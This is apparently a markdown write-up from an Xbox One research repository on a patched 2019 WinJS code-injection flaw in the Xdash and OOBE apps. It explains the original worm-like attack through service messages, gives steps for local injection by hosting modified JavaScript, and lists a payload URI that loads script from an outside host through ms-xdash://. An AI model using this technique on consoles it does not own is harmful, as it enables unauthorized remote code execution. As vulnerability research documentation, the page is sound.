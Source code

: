 # MS Xdash WinJS injection

## Metadata
|                              |                                                                                    |
| ---------------------------- | ---------------------------------------------------------------------------------- |
| Release date                 | 22.12.2019                                                                         |
| Author                       | [TitleOS](https://github.com/TitleOS)                                              |
| Classification               | RCE / WinJS code injection                                                         |
| Patched                      | yes                                                                                |
| Patch date                   | ~2019/2020                                                                         |
| First patched system version | ?                                                                                  |
| Source                       | https://blog.titleos.dev/xploring-xbox / https://github.com/TitleOS/ToastMyConsole |
| Download                     | [XboxOneResearch GIT](https://github.com/xboxoneresearch/ToastMyConsole)           |

## Info
The Xbox messaging system supports the embedding of protocols for one-click redemption of service messages containing 5x5 game codes, viewing shared images, club invites, etc. By crafting my own service message whilst chaining another vulnerability that allowed for remote custom WinJS execution (i.e. [ToastMyConsole](http://toastmyconsole.com//?ref=blog.titleos.dev)), I was able to construct a message allowing remote code execution on any console, given the stipulation of the user interacting and clicking on the button.

The worm-like behaviour is patched XBL server sided and not possible anymore.

The local code injection can still work on compatible Xbox OS versions, when a method for intercepting / modifying the network traffic is available.

In early versions, the vulnerable applications did not verify the domain name / protocol the payload link was pointing to, so it was possible to route to non-HTTPS or a different hostname.

The injected JS gets loaded in the background.
## Prerequisites

- Method to intercept / route HTTP/s traffic.
## Instructions
No exact instructions are provided as the URLs to intercept reroute and their content vary between OS versions.

Basic info:

1. Host a plain-http webserver (or SSL, if you have a valid/validly-spoofed certificate) somewhere reachable from the xbox.
2. Download the original _Javascript_ and store it on the webserver.
3. Modify the javascript to give some indication of a successful loading/*injection*. Make sure to keep the basic structure intact (init-function(s) are found etc.)
4. Rewrite the URL-payload to point to your custom JS.
5. Open up the URI (f.e. from href-link) in MS Edge and see if it auto-switches to XDash.

Vulnerable protocol URIs:
- `ms-xdash://` (Xdash launcher)
- `ms-oobe://` (Xbox Assist / Welcome app)

Already modified

- ToastMyConsole: `ms-xdash://?payload=https://www.toastmyconsole.com/scripts/consoleinfo.js&state=""&webview=false`

Original

- `ms-xdash://?payload=https://mediaexp-programming.xboxlive.com/Beacon/int/assets/js/beacon.app.min.js`

**NOTE**: The respective app(s) can be found in `X:\Apps\`. Check the AppxManifest for their `uap:Protocol`.